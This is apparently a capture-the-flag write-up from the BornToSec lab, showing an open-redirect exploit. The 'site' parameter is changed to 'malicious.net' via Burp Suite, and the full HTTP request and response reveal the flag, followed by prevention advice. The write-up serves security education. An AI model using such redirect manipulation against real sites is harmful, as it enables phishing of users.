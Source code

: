 # Open redirect
- a vulnerability where a web application allows attackers to redirect users to arbitrary URLs by manipulating a URL parameter
- if the application doesn't properly validate the 'site' parameter, an attacker can inject a malicious URL
- https://book.hacktricks.xyz/pentesting-web/open-redirect

<b>keywords</b>: redirect<br>
<b>attacked site</b>: http://borntosec.42/index.php?page=redirect&site=facebook

## Exploit
At the bottom of the main page, we observe that the social media buttons perform redirection to external sites:
```
http://borntosec.42/index.php?page=redirect&site=facebook
```
We intercept the GET request using <code>Burp Suite</code> and modify the redirection to point to our malicious site:
``` http
GET /index.php?page=redirect&site="malicious.net" HTTP/1.1
Host: 192.168.56.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://192.168.56.106/
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```
This successfully returns the following response:
``` http
HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Wed, 07 Aug 2024 23:47:17 GMT
Content-Type: text/html
Connection: close
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Content-Length: 2102

<!DOCTYPE HTML>
<html>
	<head>
		<title>BornToSec - Web Section</title>
		<meta http-equiv="content-type" content="text/html; charset=utf-8" />
		<meta name="description" content="" />
		<meta name="keywords" content="" />
		<!--[if lte IE 8]><script src="js/html5shiv.js"></script><![endif]-->
		<script src="js/jquery.min.js"></script>
		<script src="js/skel.min.js"></script>
		<script src="js/skel-layers.min.js"></script>
		<script src="js/init.js"></script>
		<noscript>
			<link rel="shortcut icon" type="image/x-icon" href="/favicon.ico" />
			<link rel="icon" type="image/x-icon" href="favicon.ico" />
			<link rel="stylesheet" href="css/skel.css" />
			<link rel="stylesheet" href="css/style.css" />
			<link rel="stylesheet" href="css/style-xlarge.css" />
		</noscript>
	</head>
	<body class="landing">
		<!-- Header -->
		<header id="header" >
								<a href=http://192.168.56.106><img src=http://192.168.56.106/images/42.jpeg height=82px width=82px/></a>
								<nav id="nav">
					<ul>
						<li><a href="index.php">Home</a></li>
						<li><a href="?page=survey">Survey</a></li>
						<li><a href="?page=member">Members</a></li>
					</ul>
				</nav>
			</header>

		<!-- Main -->
			<section id="main" class="wrapper">
				<div class="container" style="margin-top:75px">
<center><h2 style="margin-top:50px;">Good Job Here is the flag : b9e775a0291fed784a2d9680fcfad7edd6b8cdf87648da647aaf4bba288bcab3</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> 				</div>
			</section>
		<!-- Footer -->
			<footer id="footer">
				<div class="container">
					<ul class="icons">
						<li><a href="index.php?page=redirect&site=facebook" class="icon fa-facebook"></a></li>
						<li><a href="index.php?page=redirect&site=twitter" class="icon fa-twitter"></a></li>
						<li><a href="index.php?page=redirect&site=instagram" class="icon fa-instagram"></a></li>
					</ul>
					<ul class="copyright">
						<a href="?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f"><li>&copy; BornToSec</li></a>
					</ul>
				</div>
			</footer>
	</body>
</html>
```
The flag is included in the response:
```
Good Job Here is the flag : b9e775a0291fed784a2d9680fcfad7edd6b8cdf87648da647aaf4bba288bcab3
```

## Flag
b9e775a0291fed784a2d9680fcfad7edd6b8cdf87648da647aaf4bba288bcab3

## Exploit prevention
- validate redirections URLs against a whitelist of trusted domains
- use relative paths rather than allowing full URL redirection to external domains
